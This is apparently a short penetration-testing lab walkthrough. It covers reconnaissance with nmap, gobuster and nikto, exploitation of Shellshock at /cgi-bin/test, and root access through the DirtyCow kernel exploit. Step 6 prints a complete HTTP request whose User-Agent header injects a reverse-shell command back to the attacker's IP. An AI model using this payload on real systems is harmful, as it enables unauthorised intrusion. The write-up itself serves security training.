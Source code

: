 1. nmap scan shows port 22 and 80 open.
2. Gobuster on port 80 with multiple wordlist shows /cgi-bin/
3. Gobuster on /cgi-bin/ shows /test url.
4. Further gobuster did not reveal any other url endpoint hence went with nikto scan.
5. Nikto scan result shows the website url "/cgi-bin/test" is vulnerable to shellshock vulnerability.
6. Searching google for shellshock vulnerability found that we need inject the code for remote #shellshock connection on the user-agent field.
		*GET /cgi-bin/test HTTP/1.1*
		*Host: 192.168.212.87*
		*User-Agent: () { :;}; /bin/bash -c 'bash -i >& /dev/tcp/192.168.45.197/8888 0>&1'*
		*Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8*
		*Accept-Language: en-US,en;q=0.5*
		*Accept-Encoding: gzip, deflate, br*
		*Connection: close*
		*Upgrade-Insecure-Requests: 1exit*
7. This gives us the foot hold on the box.
8. Running linpeas.sh shows that the linux version is outdated. #vuln_kernel 
9. Quick google search point to us to dirtycow exploit.
10. Uploading and executing the dirtycow exploit gives us the root access. #dirtycow